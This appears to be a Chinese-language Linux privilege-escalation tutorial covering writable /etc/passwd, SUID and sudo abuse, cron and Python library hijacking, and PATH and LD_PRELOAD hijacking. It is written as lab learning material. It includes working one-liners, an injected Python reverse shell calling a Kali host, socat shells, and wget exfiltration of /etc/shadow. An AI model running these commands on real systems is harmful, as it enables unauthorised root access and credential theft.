# Linux 权限提升
# 1. /etc/passwd 可写
# 1./etc/passwd
/etc/passwd 文件是 Linux 和 Unix 系统中一个非常重要的配置文件，它存储了系统中所有用户的账户信息。虽然名字叫 “passwd”，但实际上这个文件并不直接存储用户的密码。/etc/shadow
文件格式：
#/etc/passwd 文件的每一行代表一个用户账户，每一行包含七个以冒号 (:) 分隔的字段，格式如下： | |
username:password:UID:GID:GECOS:home_directory:shell |
username: 用户名。系统中唯一标识一个用户的名称，例如
root、john。password: 用户的加密密码。在现代系统中，这个字段通常只包含一个
x，表示实际的密码存储在/etc/shadow文件中。UID (User ID): 用户 ID。每个用户都有一个唯一的用户 ID，例如 0 表示超级用户
root。GID (Group ID): 组 ID。用户所属的组 ID。系统会在
/etc/group文件中查找这个 GID 对应的组名。GECOS (General Electric Comprehensive Operating System): 通常包含用户的全名和其他信息，格式可以包括用户全名、办公室号码、电话号码等。这个字段可以是空的。
home_directory: 用户的主目录。当用户登录时，系统会将用户的工作目录设置为这个目录。
shell: 用户的登录 shell。当用户登录时，系统会启动这个 shell 进程。常见的 shell 有
/bin/bash、/bin/sh、/bin/zsh等。
举例：
john:x:1001:1001:John Doe,,,:/home/john:/bin/bash |
john: 用户名
x: 密码（实际存储在/etc/shadow文件中）
1001: 用户 ID
1001: 组 ID
John Doe,,,: GECOS 字段，包含用户全名等信息
/home/john: 用户主目录
/bin/bash: 用户登录时启动的 shell
以前，密码会直接存储在 /etc/passwd 文件中，但由于这个文件需要全局可读，因此存在安全风险。现在，实际的密码信息存储在 /etc/shadow 文件中，该文件只有超级用户和特定组可以读取。
/etc/passwd 文件中的密码字段用 x 代替，表示实际的密码存储在 /etc/shadow 文件中，但是如果 x 有具体数值的话，则将该数值当作密码。
etc/passwd 的正常权限为 644，即 -rw-r--r-- ，只允许所有者 (root) 进行编辑

如果 /etc/passwd 文件设置为 <u> 任何用户可写 </u>，会带来严重的安全风险。
用户提升权限:
-
恶意用户可以修改自己的用户 ID（UID）为 0，从而提升为超级用户 root 的权限。例如：
attacker:x:0:1001:Attacker,,,:/home/attacker:/bin/bash
添加恶意用户:
-
恶意用户可以添加新的用户账户，并赋予其高权限。例如：
test1:$1$WimKHrsx$kmwAZYfVgoOPH6BcnwzbO/:0:0:root:/root:/bin/bash
# 2. 操作
查看 /etc/passwd 权限
ls -l /etc/passwd

发现其他用户 (在这里是除了 root 和 root 组的用户) 可写，可添加一个拥有 root 的用户
首先 /etc/passwd 的格式生成一个恶意用户 hacker
通过 openssl 生成加密密码（密码为 hacker123）
openssl passwd hacker123 | |
openssl passwd -1 hacker123 |

根据格式构造语句
hacker:$1$D43eYIPF$EZPNTFTY9QniXu2.BSAXa1:0:0:root:/root:/bin/bash | |
hacker:$1$zsmp5dPt$2Hl5Y9cm43e6OVLgzNHDl0:0:0:root:/root:/bin/bash |
将其输入到 /etc/passwd
echo 'hacker:$1$D43eYIPF$EZPNTFTY9QniXu2.BSAXa1:0:0:root:/root:/bin/bash' >> /etc/passwd |
再查看
cat /etc/passwd |

恶意用户已添加进来了，登录试试
#切换用户 su <username> | |
su hacker |

成功提权为 root 权限
# 2.SUID 提权
# 1.SUID
SUID（Set User ID）是 Linux 和 Unix 系统中的一种特殊权限位，用于执行文件时更改进程的执行者用户 ID。设置了 SUID 位的可执行文件，当普通用户执行该文件时，会临时以文件所有者的权限运行，而不是以执行者本身的权限运行。
这对于需要普通用户拥有某些超级用户权限的操作非常有用，但也需要谨慎使用以避免安全风险。
SUID 的表示方式
在文件权限中，SUID 位用字符 's' 表示。可以通过以下方式查看文件的 SUID 位：
-
使用
ls -l命令：ls -l /path/to/file如果一个文件设置了 SUID 位，在文件的权限位中所有者的执行位（通常是第三个字符）会显示为
s。例如：-rwsr-xr-x 1 root root 12345 Jul 13 12:34 /path/to/file这里的
s表示文件设置了 SUID 位。
审计 SUID 文件：
可以使用以下命令查找系统中所有设置了 SUID 位的文件：
find / -perm /4000 -type f 2>/dev/null |
SUID 提权的原理
当一个可执行文件设置了 SUID 位，普通用户执行该文件时，程序会以文件所有者的权限运行而不是执行者本身的权限。通过这一特性，用户可以临时拥有文件所有者的权限。
# 2. 操作
# ——cp 提权
#查找设置了 SUID 位的文件 | |
find / -perm 4000 -type f 2>/dev/null |
发现命令 cp 被设置了 SUID 位

cp 命令主要用于复制文件或目录。
cp [选项] 源文件 目标文件
#查看 cp 命令的所有者 | |
ls -l /usr/bin/cp |

意味着我们虽然是普通用户，但可以以 root 的权限执行 cp 命令。
覆盖 /etc/passwd 提权
#将 /etc/passwd 输出到 passwd.txt，复制一份 | |
cat /etc/passwd > passwd.txt |
在 passwd.txt 中添加一个恶意用户
echo 'hacker2:$1$D43eYIPF$EZPNTFTY9QniXu2.BSAXa1:0:0:root:/root:/bin/bash' >> passwd.txt |
再将该 passwd.txt 文件对 /etc/passwd 进行覆盖
cp /home/lili/passwd.txt /etc/passwd |
再查看 /etc/passwd ，用户添加成功

#切换用户 | |
su hacker2 |

提权成功
# ——find 提权
#查找 SUID 文件 | |
find / -perm /4000 -type f 2>/dev/null |

find 命令用于在指定目录下查找文件和目录
-exec 参数用于对每个查找到的文件执行系统命令
# 查找当前目录中文件属主具有读、写权限，并且文件所属组的用户和其他用户具有读权限的文件：
所以我们可以利用其以 root 权限执行命令
find test -exec whoami \;
提权至 root
# 3. sudo 提权
# 1./etc/sudoers
/etc/sudoers 文件是 Linux 和 Unix 系统中用于配置 sudo 权限的配置文件。 sudo 是 "superuser do" 的缩写，它允许普通用户以其他用户（通常是超级用户）的身份执行命令。
/etc/sudoers 文件通过定义 <u> 哪些用户 </u > 可以以 < u > 哪些身份 </u > 执行 < u > 哪些命令 </u > 来管理这些权限。
文件格式
/etc/sudoers 文件中的每一行都定义了一条 sudo 规则，常见的语法格式如下：
user host=(runas_user) command
- user: 指定用户或用户组。用户组前加上
%符号。 - host: 指定允许用户使用 sudo 命令的主机名（通常用 ALL 表示所有主机）。
- runas_user: 指定用户可以以哪个用户的身份运行命令（通常用 ALL 表示任何用户）。
- command: 指定用户可以执行的命令（通常用 ALL 表示所有命令）。
示例
以下是一些典型的 /etc/sudoers 文件条目示例：
-
允许用户
john以 root 身份在任何主机上执行任何命令：john ALL=(ALL) ALL
-
允许用户组
admin的所有成员以 root 身份在任何主机上执行任何命令：%admin ALL=(ALL) ALL
-
允许用户
jane在任何主机上以 root 身份重启系统：jane ALL=(ALL) /sbin/reboot
-
允许用户
bob在任何主机上以任何用户身份执行网络相关的命令：bob ALL=(ALL) /sbin/ifconfig, /usr/bin/netstat
-
禁止用户
alice使用 sudo 命令：alice ALL=(ALL) !ALL
sudo -l
sudo -l 是 sudo 命令的一个选项，用于列出当前用户或指定用户可以运行的命令，以及他们在使用 sudo 时的权限。这个命令非常有用，可以帮助用户了解他们的 sudo 权限，并确保配置正确。
#查看当前用户的 sudo 权限 | |
sudo -l | |
#查看用户 Alice 的 sudo 权限 | |
sudo -l -U Alice |
# 2. 可以配合哪些命令提权呢？
# - find
find 通常用来在 Linux 中寻找文件
它也可以执行命令，比如:
sudo find /home -exec /bin/bash \; | |
sudo find /tmp -exec "whoami" \; | |
sudo find test -exec sh -c "cat /etc/shadow" \; #执行多命令 |
# - cat
cat 用来读系统文件，如果被赋予特殊权限的话，我们可以来查看一些特殊的高权限文件，比如 /etc/shadow
sudo cat /etc/shadow |
同时 cat 配合 > 可以写入文件，据此我们可以修改配置文件，比如覆盖原本的 /etc/passwd （覆盖前最好备份，养成好习惯），达到添加用户的目的
sudo cat /tmp/passwd > /etc/passwd | |
sudo cat /tmp/newuser >> /etc/passwd |
# - cp
cp 用来复制文件，如果被赋予特殊权限的话，我们同样可以用来读一些敏感文件，比如
sudo cp /etc/shadow /tmp/shadow |
也同样可以覆盖文件，比如添加用户
sudo cp /tmp/passwd /etc/passwd |
# - scp
scp 命令允许在本地主机和远程主机之间或两个远程主机之间安全地传输文件，它基于 SSH 协议
# 从本地复制到远程 | |
scp -P 22 local_file.txt user@remote_host:/remote/directory/ | |
# 从远程复制到本地 | |
scp -P 22 user@remote_host:/remote/file.txt /local/directory/ |
既然也能复制，那么也可以执行上面读取或覆盖敏感文件的操作。
不仅如此， scp 有一个参数 -S ，用于指定传输文件时使用的远程 shell 程序
TF=$(mktemp) | |
echo 'sh 0<&2 1>&2' > $TF | |
chmod +x "$TF" | |
sudo scp -S $TF x y: |

# - wget
wget 命令可以借助 HTTP、HTTPS 和 FTP 等多种协议从 Internet 或服务器同时下载单个或多个文件。在渗透过程中，我们经常使用它来下载工具，它也支持断点和恢复下载
wget 可以利用 post file 选项发送任何文件的内容。所以，这里我们将使用 wget 命令来传输 /etc/shadow 文件的内容。
sudo /usr/bin/wget --post-file=<path of file> <Listening IP> |
如果想要把目标机器的 shadow 下载出来，可以这样做：
#目标机器上 | |
sudo wget --post-file=/etc/shadoww <attack_ip> | |
#攻击机上 | |
nc -lvp 80 > shadow |
# - zip
zip 1.zip raj.txt -T --unzip-command="sh -c ifconfig" |
# - apt
apt 命令是一个强大的命令行工具，它与 Ubuntu 的高级打包工具 （APT） 配合使用，执行安装新软件包、升级现有软件包、更新包列表索引，甚至升级整个 Ubuntu 系统等功能。
方法一：
要通过 apt 服务直接利用 sudo，我们只需运行以下命令，该命令将以 root 权限为我们调用 bash
#用来在更新 apt 软件包时在更新之前执行一个 bash 脚本的命令 | |
sudo apt-get update -o APT::Update::Pre-Invoke::= /bin/bash |
方法二：
我们可以使用 apt-get 查看软件包的变更记录。使用以下命令可以查看 apt 包的变更日志：
sudo apt-get changelog apt |
这会打开一个类似 man 页面的控制台编辑器

在这里，我们可以输入 "!/bin/sh" 并按回车来执行 bash shell。 如果看到提示符变为 "#"，说明我们已经成功获取了 root shell 权限

方法三
我们可以使用 dpkg 来构造一个包，而不是使用 apt-get 来调用 bin/bash。我们首先构建一个临时文件，在其中构建一个调用 /bin/bash 的打包，然后通过 apt-get 安装该包。
TF=$(mktemp) | |
echo 'Dpkg::Pre-Invoke {"/bin/sh;false"}' > $TF | |
sudo apt-get install -c $TF sl |
# - time
sudo time cat /etc/shadow |
# - xxd
xxd 命令使用户能够生成给定文件的十六进制转储，还可以将十六进制转储反转回其原始 ASCII 格式
利用
xxd "/etc/shadow" | xxd -r |
# - socat
sudo socat TCP4-LISTEN:1234, reuseaddr EXEC:"/bin/sh" | |
#在攻击机执行 | |
socat – TCP4:192.168.1.100:1234 |

还有一种方法：
sudo socat exec:'sh –li' ,pty,stderr,setsid,sigint,sane tcp:192.168.1.106:1234 | |
#在攻击机执行： | |
socat file: 'tty',raw,echo=0 tcp-listen:1234 |
一种正向连接，一种反向连接
# - tmux
sudo tmux |
# - sed
sed 用于搜索、查找和替换、插入或删除等
sudo sed -n 'le exec sh 1>&0' /etc/passwd

# - ed
ed 命令用于启动 “ed text editor”，这是一个基于行的文本编辑器。
sudo ed | |
!/bin/sh |

# - pip
TF=$(mktemp -d) | |
echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py | |
sudo pip install $TF |
# - git
sudo git help config |
这将调用默认的分页器来读取类似于 man 的配置，我们在这里可以注入 “!/bin/sh”，然后按回车键来为我们执行 bash shell。
!/bin/bash |


# - taskset
Taskset 用于设置或检索正在运行的进程的 CPU 亲和力，给定其 PID，或者以给定的 CPU 亲和力启动一个新的命令。
利用：
sudo taskset 1 /bin/sh –p |
# 4. 计划任务提权
# 1. /etc/crontab
Linux 中的计划任务是指预定在特定时间或周期性地自动执行的任务。
文件格式
/etc/crontab 文件中每一行代表一项计划任务，以空格或制表符分隔，格式如下：
* * * * * 用户名 命令 | |
- - - - - | |
| | | | | | |
| | | | +----- 星期几 (0 - 7) (0 或 7 表示星期日) | |
| | | +---------- 月份 (1 - 12) | |
| | +-------------- 日期 (1 - 31) | |
| +------------------- 小时 (0 - 23) | |
+------------------------ 分钟 (0 - 59) |
时间字段的特殊符号
- 星号（
\*）：表示所有合法的值。例如，如果在小时字段使用*，表示每小时都运行任务。 - 逗号（
,）：表示多个值。例如，如果在分钟字段使用0,30，表示在每小时的第 0 和第 30 分钟运行任务。 - 连字符（
-）：表示一个范围。例如，如果在小时字段使用1-5，表示在凌晨 1 点到 5 点之间每小时运行任务。 - 斜杠（
/）：表示步长。例如，如果在分钟字段使用*/15，表示每 15 分钟运行一次任务。
典型范例：
每天凌晨 2:30 以 root 身份运行 /usr/bin/backup 脚本：
30 2 * * * root /usr/bin/backup |
每小时的第 0 和第 30 分钟以 root 身份运行 /usr/bin/cleanup 脚本：
0,30 * * * * root /usr/bin/cleanup |
每月的 1 号和 15 号凌晨 3 点以 root 身份运行 /usr/bin/update 脚本：
0 3 1,15 * * root /usr/bin/update |
每周一至周五的每天下午 5 点以 user 身份运行 /usr/bin/dailyreport 脚本：
0 17 * * 1-5 user /usr/bin/dailyreport |
每隔 5 分钟以 root 身份运行 /usr/bin/check_status 脚本：
*/5 * * * * root /usr/bin/check_status |
查看计划任务
cat /etc/crontab |
# 2. 操作
#查看计划任务 | |
cat /etc/crontab |

可以看到，每两分钟会以 root 权限执行 python3 /home/clean/cleanup.py
我们看一下 cleanup 的内容

#!/usr/bin/env python | |
import os | |
import sys | |
try: | |
os.system('rm -r /home/clean/cleanthings/* ') | |
except: | |
sys.exit() |
程序的意思为调用系统命令 rm -r /home/clean/cleanthings/* ，即删除 /home/clean/cleanthings/ 目录下的文件。
所以这个定时任务为每隔两分钟删除特定目录下的所有文件。
我们看一下这个 py 程序的权限
ls -l /home/clean/cleanup.py |

发现我们有权限对其进行编辑，我们修改它的内容
vim /home/clean/cleanup.py
将其修改并保存。
#!/usr/bin/env python | |
import os | |
import sys | |
try: | |
os.system('chmod u+s /usr/bin/find') #chmod u+s /usr/bin/find | |
except: | |
sys.exit() |
等待程序运行
find test -exec "whoami" \; |

提权成功！
# 5. python 库劫持提权
原理：python 程序引入的库可写
这个漏洞是基于应用于我们脚本导入的模块文件的权限。当导入的模块文件具有允许任何用户编辑的权限时，就会成为一个漏洞。
在我们创建的 Python 脚本中，我们调用了 webbrowser.py 模块文件。在未经修改的默认环境中，这通常不会出现问题，但在开发环境中，出于便利性的考虑可能会牺牲一些安全性。
登录到 clean 用户，查看 sudo -l
sudo -l

发现我们可以以 root 权限用 python 执行 web.py
我们看一下 /home/pyraj/web.py 的权限和内容
#查看权限 | |
la -l | |
#看内容 | |
cat /home/pyraj/web.py |


#文件内容 | |
import webbrowser | |
webbrowser.open("http://example.com") | |
#引入 webbrowser 模块，用浏览器打开网站 |
该文件我们不能够编辑。
我们看一下引入的模块：webbrowser
#查看位置 | |
locate webbrowser.py | |
#查看权限 | |
ls -l /usr/lib/python3.8/webbrowser.py |

权限还是比较高的，可以编辑
我们可以对其进行劫持
vim /usr/lib/python3.8/webbrowser.py |
插入恶意代码
#准备插入的恶意代码 | |
import socket | |
import subprocess | |
import os as original_os | |
def reverse_shell(): | |
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM) | |
s.connect(("192.168.87.136", 4444)) #192.168.87.136 为 kali 的 ip，4444 为监听端口 | |
original_os.dup2(s.fileno(), 0) | |
original_os.dup2(s.fileno(), 1) | |
original_os.dup2(s.fileno(), 2) | |
p = subprocess.call(["/bin/sh", "-i"]) | |
reverse_shell() |

使用 sudo 运行 web.py，同时 kali 监听端口
#kali | |
nc -lvnp 4444 |
#使用 sudo，利用 root 权限来运行 web.py | |
sudo /usr/bin/python3.8 /home/pyraj/web.py |

提权成功。
# 6. PATH 变量劫持
PATH 变量是 Linux 系统中的一个环境变量，它告诉系统在哪些目录中查找可执行文件。当您在终端输入一个命令时，系统会按照 PATH 中列出的目录顺序查找该命令的可执行文件。
# PATH 变量的特点
-
每个用户都有自己的 PATH 环境变量
-
普通用户可以修改自己的 PATH 变量
-
这种修改只影响当前用户的当前会话（或者该用户的所有会话，如果将命令添加到～/.bashrc 中）
# 临时修改（仅影响当前终端会话）export PATH=.:$PATH
# 永久修改（需要添加到用户的配置文件中）echo 'export PATH=.:$PATH' >> ~/.bashrc
“每个用户都有自己的 PATH 环境”，正说明了 PATH 提权在一些计划任务（比如 root 执行某个计划任务）中是无法利用的，因为 root 权限运行的程序通常有自己的安全 PATH 设置，不会继承普通用户的 PATH，我们进行
export path的操作是针对当前终端的普通用户，而不是 root；而且 /etc/crontab 中通常定义了安全的 PATH
# PATH 变量的权限提升原理
- 当普通用户执行某个需要 root 权限的程序时（SUID）
- 如果该程序在执行过程中调用了其他命令，但没有使用完整路径
- 攻击者可以通过修改 PATH 变量，让系统优先在攻击者指定的目录中查找这些命令
- 攻击者可以放置一个同名的恶意程序，从而获取提升的权限
# 示例
假设有一个场景：
- 有一个具有 SUID 权限的程序
vulnerable_program - 这个程序在运行时会调用
ls命令，但使用的是system("ls")而不是system("/bin/ls") - 攻击者可以这样利用：
# 1. 创建一个恶意的 ls 程序 | |
echo '#!/bin/bash' > /tmp/ls | |
echo 'bash' >> /tmp/ls | |
chmod +x /tmp/ls | |
# 2. 修改 PATH 变量，让 /tmp 目录优先 | |
export PATH=/tmp:$PATH | |
# 3. 运行有漏洞的程序 | |
./vulnerable_program |
当运行./<command> 时，系统会优先顺次检查 PATH 环境变量下的目录，如果没有找到该可执行文件，则执行当前目录（相对路径）下的 < command>，如果还是没找到，则报错
验证当前使用的是哪个命令（以 cat 举例）
# 查看实际执行的命令路径# 查看所有可能的 cat 命令# 使用完整路径确保使用系统 cat
# 检测方法
# 查找所有的 SUID 程序 | |
find / -perm -u=s -type f 2>/dev/null | |
# 检查当前 PATH 变量 | |
echo $PATH | |
# 检查是否有可写的目录在 PATH 中 | |
for d in $(echo $PATH | tr ":" "\n"); do | |
ls -ld $d | |
done |
# 扩展
除了 PATH ，其他环境变量也可能被利用：
# LD_PRELOAD 劫持 | |
export LD_PRELOAD=/path/to/evil.so | |
# LD_LIBRARY_PATH 劫持 | |
export LD_LIBRARY_PATH=/path/to/evil/libs |
# 7. LD_PRELOAD 劫持
# 前置知识
# 什么是共享库？
共享库就像是一个工具箱，里面装着很多可重复使用的函数。在 Linux 系统中，很多程序都会使用这些共享库中的函数，而不是自己重新写一遍。
比如：
/lib/libc.so.6(C 标准库) 包含了很多基础函数- 程序要打印文本时会用到
printf() - 要读取文件时会用到
fopen()
# 什么是动态链接？
想象你在使用一个办公软件：
- 静态链接：就像把所有功能都装在一个超大的安装包里
